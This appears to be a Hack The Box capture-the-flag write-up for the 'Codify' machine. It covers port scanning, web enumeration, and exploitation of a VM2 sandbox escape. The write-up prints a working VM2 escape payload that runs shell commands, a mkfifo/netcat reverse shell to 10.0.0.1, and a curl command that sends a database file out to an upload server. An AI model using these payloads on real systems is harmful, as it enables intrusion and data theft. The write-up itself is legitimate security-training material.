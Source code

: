 ```yaml
---
published: false
title: Hack The Box Codify Write Up
slug: htb-codify
description: Write up for Codify machine on Hack the box
author: Leon
date: 2024-03-23
cover: /media/1 2zqbeP26SB5iDgOINWaPfQ-3674822343.png
---
```

Port Enumeration:

We conducted a port scan to assess the available ports on the target IP using the following command:

```
bash
```

```
nmap -p- --min-rate 5000 $TARGET -sV 
```

The scan results unveiled several open ports:

*   Port 22/tcp: Open, hosting an SSH service.
    
*   Port 80/tcp: Open, serving HTTP.
    
*   Port 8888/tcp: Open, possibly related to the Sun AnswerBook service.
    

These findings suggest potential points of entry into the system, with SSH, HTTP, and a less common port being accessible.

Web Enumeration:

Upon accessing the web server on port 80, we were redirected to "codify.htb". To ease further access, we added the domain to our 'etc/hosts' file.

Further investigation of the web server yielded limited results. Despite attempts with basic reverse shells and testing in code editors, we encountered challenges in making significant progress. Examination of the source code and directory paths via DirBuster confirmed the absence of additional accessible pages beyond the visible content.

During this exploration, we noted the utilization of VM2 for the code sandbox, suggesting potential avenues for exploitation.

Exploitation Discovery:

Research into known vulnerabilities for the Node.js library led to a post on GitHub ([https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)) detailing a vulnerability in the `handleException()` function. This vulnerability enables escaping the sandbox and executing arbitrary code for VM2 versions up to 3.9.16.

The vulnerable code snippet is as follows:

```
javascript
```

```
const {VM} = require("vm2");
const vm = new VM();
const code =  err = {};
const handler = {
   getPrototypeOf(target) {
       (function stack() {
           new Error().stack;
           stack();
       })();
   }
};
const proxiedErr = new Proxy(err, handler);
try {
   throw proxiedErr;
} catch ({constructor: c}) {
   c.constructor('return process')().mainModule.require('child_process').execSync('YOUR BASH COMMAND');
}
console.log(vm.run(code));
```

Executing a bash command such as `ls` or `whoami` confirms the functionality of the code.

Now, it's time for Remote Code Execution (RCE)! I utilized the following payload for this purpose:

```
bash
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 443 >/tmp/f
```

This payload establishes a reverse shell to 10.0.0.1 on port 443.

Additionally, we discovered a database file located at `/var/www/contacts/tickets.db`. To exfiltrate the file, we utilized the following method:

```
bash
```

```
# Listen to files
python3 -m pip install --user uploadserver
python3 -m uploadserver

# Send a file
curl -X POST http://HOST/upload -F 'files=@tickets.db' 
```

This process enables the transfer of the database file for further analysis and exploitation.